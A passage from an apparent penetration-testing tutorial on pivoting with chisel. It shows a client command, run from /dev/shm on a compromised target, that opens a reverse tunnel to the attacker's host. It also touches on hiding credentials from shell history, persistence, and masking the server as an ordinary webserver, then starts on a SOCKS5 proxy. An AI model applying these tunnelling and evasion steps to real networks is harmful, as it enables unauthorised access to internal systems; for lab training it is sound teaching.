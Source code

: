 Now that I've got the server running, time to get the client working. I'll run this on the target machine to connect back to me and establish a tunnel to the target server:

```terminal
$ /dev/shm/chisel client --auth agr0:letmein 10.10.1.1:9090 R:9091:10.10.20.30:8000
2023/10/24 10:50:12 client: Connecting to ws://10.10.1.1:9090
2023/10/24 10:50:12 client: Connected (Latency 885.497µs)
```

An explanation of the above commands: first of all, we're specifying that this is a client, which means it will make an outward connection back to me. I am adding the `--auth` argument with the credentials mentioned earlier. I can get really opsec-y and put the credentials in an environment variable instead and set them without leaving breadcrumbs in the command history, but in the interest of not being too confusing I'm just going to toss the simple creds into the argument string. Now I'm connecting to the server, which of course is back to me at `10.10.1.1:9090`, and _then_ I'm configuring the tunnel with the final argument there. Note the `R` to denote a reverse tunnel, then stating that my _local_ server will listen on port `9091`. Any traffic sent to my local port of `9091` will forward through the tunnel to the connecting client, and then make a connection out to the rest of that string -- in this case, `10.10.20.30:8000`, which will be relative to the target server running the chisel client.

Once I make this connection, I see the "Connected" message, and now in a separate shell I can confirm that I have access with `curl http://127.0.0.1:9091` -- and it should pull up the page on the remote end. So now my connection looks something like this:

![Flow of Traffic for Chisel](/assets/img/sshtunnelling/chisel.png){: .shadow }
_A chisel tunnel_

#### Additional Chisel Functionality

Now of course there are other fancy things you can do with Chisel. The above is generally my typical go-to for using it, though it can always be used for persistance, or you can even install the server to act as a mock HTTP server, forwarding _regular_ requests from a browser to a legitimate webserver to make it look innocuous, but will make standard connections from chisel clients to set up tunnels as needed. This of course is performed with the server's `--backend` argument, taking in a default server it should make requests for instead. Knowing this, let's use this sneaky method to set up a SOCKS5 proxy to connect to virtually any server by way of the `10.10.20.20` endpoint!

#### SOCKS5 Proxy

In this method, I'm going to switch the role. I'm going to assume that either there isn't a firewall, or rather there isn't a firewall blocking a high-enough port, like say port `5000` from connecting to the target `10.10.20.20`. I'm going to have chisel listen as a socks5 proxy on the target server, set up a tunnel, and make arbitrary connections to the remote server (or anywhere, really!) by way of the target server.
